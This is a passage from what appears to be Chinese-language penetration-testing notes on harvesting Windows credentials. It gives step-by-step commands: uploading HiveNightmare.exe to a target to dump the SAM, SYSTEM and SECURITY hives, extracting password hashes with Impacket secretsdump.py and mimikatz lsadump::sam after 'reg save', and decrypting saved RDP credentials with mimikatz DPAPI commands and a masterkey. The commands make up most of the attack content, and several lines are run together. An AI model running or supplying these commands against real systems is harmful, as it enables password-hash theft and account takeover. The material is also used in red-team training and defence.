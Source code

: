     >         ![image-20221014003903315](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    >         
    >     2. 下载[HiveNightmare.exe](https://github.com/GossiTheDog/HiveNightmare/releases/download/0.6/HiveNightmare.exe)然后将其上传到靶机, 直接执行`HiveNightmare.exe`就会在当前目录下导出生成`SAM,SYSTEM,SECURITY`三个文件
    >         
    >     3. ```bash
    >         python3 secretsdump.py -sam SAM-haxx -system SYSTEM-haxx -security SECURITY-haxx LOCAL
    >         ```
    >         
    >         运行[Impacket的secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)导出SAM文件中的哈希值
    >         
    > 3. 在管理员权限下执行命令通过保存注册表的方式导出
    >     
    >     ```bash
    >     reg save HKEY_LOCAL_MACHINE\SAM\SAM sam.hive    #导出SAM注册表reg save HKEY_LOCAL_MACHINE\SYSTEM system.hive  #导出SYSTEM注册表 mimikatz.exe "lsadump::sam /sam:sam.hive /system:system.hive" exit  #使用mimikatz读取SAM文件内容
    >     ```
    >     
    >     执行命令后将得到SAM和SYSTEM注册表的导出文件, 然后将这两个.hive文件导出到本地的mimikatz工具目录下, 执行命令指定SAM文件和SYSTEM文件即可读取导出注册表中的`域,用户名,密码哈希`
    >     
    >     ![image-20221014011842020](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    >     
    

### 4.2 获取常见应用软件凭据

1. #### 获取RDP保存的凭据
    
    ```bash
    cmdkey /list #查看当前保存的凭据dir /a %USERPROFILE%\AppData\Local\Microsoft\Credentials\*   #遍历Credentials目录下保存的历史连接凭据数据 mimikatz.exe "privilege::debug" "dpapi::cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D" exit    #使用mimikatz解析指定的连接凭据 mimikatz.exe "privilege::debug" "sekurlsa::dpapi" exit   #找到与guidMasterKey(GUID)相关联的MasterKey mimikatz.exe "dpapi::cred /in:%USERPROFILE%\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D/masterkey:c33afd208e2f69c975b90546deedc8091c47eab49fb96a9c3092373f276a85dcf90d41e072eb4a105599244876b686c145f5bd2f00ffc12cac2e7faace661733" exit
    ```
    
    执行命令遍历Credentials目录下保存的历史连接凭据数据, 可以看到有一个历史凭据`DFBE70A7E5CC19A398EBF1B96859CE5D`
    
    ```bash
    dir /a %USERPROFILE%\AppData\Local\Microsoft\Credentials\*
    ```
    
    ![image-20221014013814693](data:image/svg+xml;base64,PCEtLUFyZ29uTG9hZGluZy0tPgo8c3ZnIHdpZHRoPSIxIiBoZWlnaHQ9IjEiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyIgc3Ryb2tlPSIjZmZmZmZmMDAiPjxnPjwvZz4KPC9zdmc+)
    